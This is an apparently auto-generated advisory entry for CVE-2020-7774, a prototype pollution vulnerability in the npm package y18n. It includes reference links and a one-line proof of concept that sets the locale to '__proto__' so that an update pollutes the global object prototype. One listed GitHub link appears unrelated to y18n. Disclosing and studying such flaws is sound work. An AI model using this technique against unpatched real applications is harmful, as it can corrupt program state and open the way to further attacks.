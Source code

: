 ### [CVE-2020-7774](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7774)
![](https://img.shields.io/static/v1?label=Product&message=y18n&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3C%205.0.5%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=Prototype%20Pollution&color=brighgreen)

### Description

This affects the package y18n before 3.2.2, 4.0.1 and 5.0.5. PoC by po6ix: const y18n = require('y18n')(); y18n.setLocale('__proto__'); y18n.updateLocale({polluted: true}); console.log(polluted); // true

### POC

#### Reference
- https://github.com/yargs/y18n/issues/96
- https://snyk.io/vuln/SNYK-JAVA-ORGWEBJARSNPM-1038306
- https://snyk.io/vuln/SNYK-JS-Y18N-1021887

#### Github
- https://github.com/anthonykirby/lora-packet

